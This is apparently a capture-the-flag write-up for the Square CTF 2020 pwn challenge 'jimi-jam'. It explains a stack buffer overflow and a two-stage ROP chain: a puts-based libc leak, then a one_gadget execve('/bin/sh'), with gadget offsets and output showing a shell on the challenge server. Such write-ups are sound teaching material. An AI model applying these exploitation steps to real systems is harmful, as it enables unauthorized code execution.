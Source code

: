 jimi-jam
========

This challenge was part of Square CTF 2020.

Challenge description:
```
I'm stuck in Jimi Jam jail
:( Can you let me out?
nc challenges.2020.squarectf.com 9000
```

* Points: 150
* Topics: pwn
* Given files: `jimi-jam`, `libc.so.6`

## Approach
Let's first check the mitigations techniques:
```bash
$ checksec jimi-jam
[*] './jimi-jam'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
It's not only a PIE with NX bit enabled, but also fully relro!
However, there are no stack canaries .. Maybe a stack overflow?

Now, connect to the challenge:
```bash
$ nc challenges.2020.squarectf.com 9000
Hey there jimi jammer! Welcome to the jimmi jammiest jammerino!
The tour center is right here! 0x562e82915060
Hey there! You're now in JIMI JAM JAIL

```

Great! Seems like the challenges gives us a leak.
Opening the binary in a decompiler reveals that this is the address of a 0x2000 bytes buffer (`ROPJAIL`) in the `.bss` segment.
Also, that buffer get's initialized with some pseudo random data:
```
int init_jail() {
  int i; // [rsp+Ch] [rbp-4h]

  srand(0x539u);
  for (i = 0; i <= 0x1FFF; i += 4)
    ROPJAIL[i] = rand();
  return mprotect(ROPJAIL, 0x2000uLL, 5);
}
```

However, the binary does not only initialize the buffer and print the leak, but also reads 0x40 bytes from the user into a 8 byte buffer on the stack (function `vuln()`).
Thus, I didn't look at the `ROPJAIL` buffer but instead sent two ropchains.

**First Ropchain:**
The first ropchain leaks the address of `libc`.
One can easily leak the address of `puts` by leaking the entry in the `.plt.sec` section of `jimi-jam` and jump back to `vuln()`.
Thus, the ropchain contains four entries:

1. The address of a `pop rdi` gadget (0x13a3)
2. The address of `puts` in the `.got` segment (can be any entry from the `.got`)
3. The address of `puts` in the `.plt.sec` segment
4. The address of `vuln` such that we can execute another ropchain

With this ropchain we get the address of `libc`.

**Second Ropchain:**
The second ropchain contains a one_gadget and sets the required registers beforehand.
We go for the following one_gadget:
```
0xe6e79 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

Thus, we need to set `rsi` and `rdx`.
Fortunately, the `libc` provides rop gadgets for that:
```
0x162866:  pop rdx; pop rbx; ret;
0x027529:  pop rsi; ret;
```

So, we just use these gadgets to set the registers to 0 and then jump to the one_gadget.
This leads to code execution!

## Exploit

You can find the exploit in [`x.py`](./x.py).

Just run it:
```bash
$ ./x.py remote
[*] './jimi-jam'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] './libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.2020.squarectf.com on port 9000: Done
[*] Binary @ address 0x555b429d5000
[*] Sending first ropchain (leak libc address)
[*] Libc @ address 0x7fbbbd7e8000
[*] Sending second ropchain (RCE)
[*] Switching to interactive mode
$ cat flag.txt
flag{do_you_like_ropping}
$
```
